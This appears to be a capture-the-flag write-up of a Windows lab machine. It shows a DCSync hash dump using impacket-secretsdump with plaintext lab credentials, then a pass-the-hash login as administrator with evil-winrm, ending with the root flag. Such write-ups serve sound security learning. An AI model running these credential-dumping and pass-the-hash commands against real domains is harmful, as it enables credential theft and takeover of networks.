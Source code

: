 ![Image](/assets/Screenshot 2024-09-15 at 4.44.51 PM.png)

`svc_loanmgr | Moneymakestheworldgoround!`

With this, we can not only migrate accounts, but update our plan of action in bloodhound for a new strategy. 

Upon doing so, I recognized that the account has privileges akin higher access accounts, and we'll be able to abuse this with a DcSync attack, just like we did with Forest. 

Because the path forward is very simple, and root is a `secrets-dump` away, I went for the flag. In a thorough engagement, be sure to re-enumerate with the new credentials. Always.

We can use the following command to try and get NTLM hashes for all user accounts, now that we have the permissions to do so:

`impacket-secretsdump EGOTISTICAL-BANK/svc_loanmgr:'Moneymakestheworldgoround!'@10.10.10.175`

![Image](/assets/Screenshot 2024-09-15 at 5.13.08 PM.png) 

SYNTAX IS VERY TOUCHY! Be careful here, as the only way I could get this to work was by prepending the command with `impacket`, as shown. Something must be wrong with the library I built using the `git` repo, but that's a problem for another day.

With the hashes, we can now pass the `administrator` hash using `evil-winrm` for access to the DC.

`ruby /var/lib/gems/3.1.0/gems/evil-winrm-3.5/evil-winrm.rb -i 10.10.10.175 -u administrator -p aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e`

![Image](/assets/Screenshot 2024-09-15 at 5.15.57 PM.png)

Nothing better...

`ROOT:b91c1572435d61d7d5c74b64c8278415`

#easy #windows #manual 











